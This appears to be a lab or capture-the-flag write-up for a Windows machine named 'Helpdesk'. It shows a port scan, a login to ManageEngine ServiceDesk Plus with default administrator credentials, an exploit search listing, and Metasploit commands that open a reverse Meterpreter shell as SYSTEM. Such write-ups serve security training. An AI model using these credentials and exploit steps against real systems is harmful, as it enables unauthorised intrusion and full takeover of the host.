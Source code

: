 # Helpdesk

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.43 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 14:37 +08
Nmap scan report for 192.168.201.43
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

RDP is available.

### ManageEngine RCE -> SYSTEM

Port 8080 hosts a really vulnerable looking software:

<figure><img src="../../../.gitbook/assets/image (572).png" alt=""><figcaption></figcaption></figure>

Default creds of `administrator:administrator` works in logging us in:

<figure><img src="../../../.gitbook/assets/image (1955).png" alt=""><figcaption></figcaption></figure>

There are loads of vulnerabilities with this software.&#x20;

```
$ searchsploit manageengine servicedesk Plus  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ManageEngine ServiceDesk Plus 7.6 - woID SQL Injection     | jsp/webapps/11793.txt
ManageEngine ServiceDesk Plus 8.0 - Directory Traversal    | jsp/webapps/17437.txt
ManageEngine ServiceDesk Plus 8.0 - Multiple Persistent Cr | jsp/webapps/17713.txt
ManageEngine ServiceDesk Plus 8.0 Build 8013 - Multiple Cr | jsp/webapps/17586.txt
ManageEngine ServiceDesk Plus 8.0.0 Build 8013 - Improper  | multiple/webapps/17572.txt
ManageEngine ServiceDesk Plus 8.1 - Persistent Cross-Site  | windows/webapps/20356.py
ManageEngine ServiceDesk Plus 9.0 - Authentication Bypass  | java/webapps/42037.txt
ManageEngine ServiceDesk Plus 9.0 - SQL Injection          | jsp/webapps/35890.txt
ManageEngine ServiceDesk Plus 9.0 - User Enumeration       | jsp/webapps/35891.txt
ManageEngine ServiceDesk Plus 9.0 < Build 9031 - User Priv | jsp/webapps/35904.txt
ManageEngine ServiceDesk Plus 9.1 build 9110 - Directory T | jsp/webapps/38395.txt
ManageEngine ServiceDesk Plus 9.2 Build 9207 - Unauthorize | java/webapps/40569.txt
ManageEngine ServiceDesk Plus 9.3 - User Enumeration       | java/webapps/46674.txt
Zoho ManageEngine ServiceDesk Plus (SDP) < 10.0 build 1001 | jsp/webapps/46413.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'PurchaseRequest. | java/webapps/46966.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SearchN.do' Cros | java/webapps/46965.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SiteLookup.do' C | java/webapps/46963.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - 'SolutionSearch.d | java/webapps/46964.txt
Zoho ManageEngine ServiceDesk Plus 9.3 - Cross-Site Script | multiple/webapps/46895.txt
Zoho ManageEngine ServiceDesk Plus < 10.5 - Improper Acces | multiple/webapps/46894.txt
Zoho ManageEngine ServiceDesk Plus MSP 9.4 - User Enumerat | java/webapps/50027.py
----------------------------------------------------------- ---------------------------------
```

I was lazy, so I used `msfconsole` to exploit this easily.&#x20;

```
msf6 exploit(multi/http/manageengine_auth_upload) > set USERNAME administrator
USERNAME => administrator
msf6 exploit(multi/http/manageengine_auth_upload) > set PASSWORD administrator
PASSWORD => administrator
msf6 exploit(multi/http/manageengine_auth_upload) > set LHOST tun0
LHOST => 192.168.45.191
msf6 exploit(multi/http/manageengine_auth_upload) > set RHOSTS 192.168.201.43
RHOSTS => 192.168.201.43
msf6 exploit(multi/http/manageengine_auth_upload) > exploit
```

This would give us a Meterpreter shell as the SYSTEM user:

<figure><img src="../../../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>
